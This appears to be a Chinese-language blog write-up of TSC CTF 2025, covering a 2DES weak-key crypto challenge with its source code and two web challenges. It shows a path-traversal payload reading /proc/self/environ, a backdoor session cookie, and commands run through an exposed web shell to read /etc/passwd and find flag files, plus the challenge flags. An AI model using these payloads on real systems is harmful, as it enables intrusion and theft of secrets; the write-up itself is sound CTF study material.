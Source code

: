 ```yaml
---
title: TSC CTF 2025
published: 2025-01-17
updated: 2025-07-09
description: "TSC CTF 2025 writeup"
image: ""
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: false
---
```


85 th / 509

很努力地去開提示，賭自己能不能多寫幾題，現實是，不能 (╥﹏╥)

![個人成績](/assets/TSCCTF2025/score.png)

---

# TSC CTF 2025

## Crypto

### 2DES

題目是

> As you know, there are DES and 3DES in reality. However, I don't like the existing composition. Hence, I invented 2DES, which is a combination of 2 DESs.

開了提示

> Hint: NIST SP 800-67 are sometimes helpful

去找到 NIST SP 800-67 並上傳到 notebooklm，會發現 TDEA 有弱金鑰的問題

> 弱金鑰: 會將明文加密為相同密文  
> 半弱金鑰: 成對的金鑰會將明文加密為相同的密文

![NotebookLM](/assets/TSCCTF2025/2DES/image.png)

從題目中給的 code 可知，其中有一對在弱金鑰的範圍內

```
#!/usr/bin/env python
from Crypto.Cipher import DES
from Crypto.Util.Padding import pad
from random import choice
from os import urandom
from time import sleep

def encrypt(msg: bytes, key1, key2):
    des1 = DES.new(key1, DES.MODE_ECB)
    des2 = DES.new(key2, DES.MODE_ECB)
    return des2.encrypt(des1.encrypt(pad(msg, des1.block_size)))

def main():
    flag = open('/flag.txt', 'r').read().strip().encode()

    print("This is a 2DES encryption service.")
    print("But you can only control one of the key.")
    print()

    while True:
        print("1. Encrypt flag")
        print("2. Decrypt flag")
        print("3. Exit")
        option = int(input("> "))

        if option == 1:
            # I choose a key
            # You can choose another one
            keyset = ["1FE01FE00EF10EF1", "01E001E001F101F1", "1FFE1FFE0EFE0EFE"]
            key1 = bytes.fromhex(choice(keyset))
            key2 = bytes.fromhex(input("Enter key2 (hex): ").strip())

            ciphertext = encrypt(flag, key1, key2)
            print("Here is your encrypted flag:", flush=True)
            print("...", flush=True)
            sleep(3)
            if ciphertext[:4] == flag[:4]:
                print(ciphertext)
                print("Hmmm... What a coincidence!")
            else:
                print("System error!")
            print()

        elif option == 2:
            print("Decryption are disabled")
            print()

        elif option == 3:
            print("Bye!")
            exit()

        else:
            print("Invalid option")
            print()

if __name__ == "__main__":
    main()

```

```
1FE01FE00EF10EF1 和 E01FE01FF10EF10E
```

![flag](/assets/TSCCTF2025/2DES/image-1.png)

```txt
TSC{th3_Key_t0_br34k_DES_15_tHe_keY}
```

## Web

### Ave Mujica

![index](/assets/TSCCTF2025/AveMujica/image.png)

進入網頁後開 F12，可以觀察到所有圖片的來源都是由 `image?name=example.webp` 取得

![src](/assets/TSCCTF2025/AveMujica/image-1.png)

接下來去嘗試相對路徑可不可以取得一些敏感檔案

![mygo](/assets/TSCCTF2025/AveMujica/image-3.png)

經過嘗試後找到`image?name=../../../proc/self/environ`，打開檔案後就可以看到 flag

![flag](/assets/TSCCTF2025/AveMujica/image-2.png)

```
TSC{敬愛爽🍷}
```

### BeIDol

剛開始試過 sql injection，但發現不是，接著去看程式碼

發現有一個 secretbackdoor123

把 phpsessid 改成 secretbackdoor123

![cookies](/assets/TSCCTF2025/BeIDol/image.png)

進入到檔案管理系統

![fileExplorer](/assets/TSCCTF2025/BeIDol/image-1.png)

用 script 去掃所有檔案

```
database:
  host: localhost
  user: admin
  password: [REDACTED]
```

file 11002

```
app_name: FileExplorer
debug: false
max_upload: 100M
```

file 11050

```
192.168.1.1 - - [01/Jan/2024:00:00:00 +0000] "GET / HTTP/1.1" 200
```

file 11051

```
[ERROR] Failed to connect to database
[ERROR] Invalid user input
```

file 11100

```
CREATE TABLE users (id INT, username VARCHAR(50));
INSERT INTO users VALUES (1, 'admin');
```

file 11500

```php
<?php
functphpion check_auth() { /* ... */ }
?>
```

file 11999

```
DB_PASSWORD=secret123
API_KEY=abcd1234
DEBUG=false
```

file 12001

```php
        <!DphpOCTYPE html>
        <html>
        <head>
            <title>System Command Interface</title>
            <style>
                body { font-family: monospace; background: #1e1e1e; color: #d4d4d4; padding: 20px; }
                pre { background: #2d2d2d; padding: 10px; border-radius: 5px; }
                .output { margin-top: 10px; }
            </style>
        </head>
        <body>
            <h2>System Command Interface</h2>
            <form method="GET">
                <input type="hidden" name="file_id" value="12001">
                Command: <input type="text" name="cmd" style="width: 300px;" value="">
                <input type="submit" value="Execute">
            </form>
            <div class="output">
                <pre>Try some commands:
ls -la
pwd
cat /etc/passwd</pre>            </div>
        </body>
        </html>

```

根據第 12001 找到的檔案輸入網址

![12001](/assets/TSCCTF2025/BeIDol/image-2.png)

按照給的提示試試看
![passwd](/assets/TSCCTF2025/BeIDol/image-3.png)

![ls-al](/assets/TSCCTF2025/BeIDol/image-4.png)

![index](/assets/TSCCTF2025/BeIDol/image-5.png)

![login](/assets/TSCCTF2025/BeIDol/image-6.png)

![jsscript](/assets/TSCCTF2025/BeIDol/image-7.png)

基本上沒有看到甚麼重要的東西，找找看有沒有 flag.txt

```
find / -name "flag*" 2>/dev/null
```

![findFLAG](/assets/TSCCTF2025/BeIDol/image-8.png)

印出/opt/flag/flag.txt 的內容

![flag](/assets/TSCCTF2025/BeIDol/image-9.png)

```
TSC{You_can_be_ID0R_12353oujhefrgiuoewihoqweihfo}
```
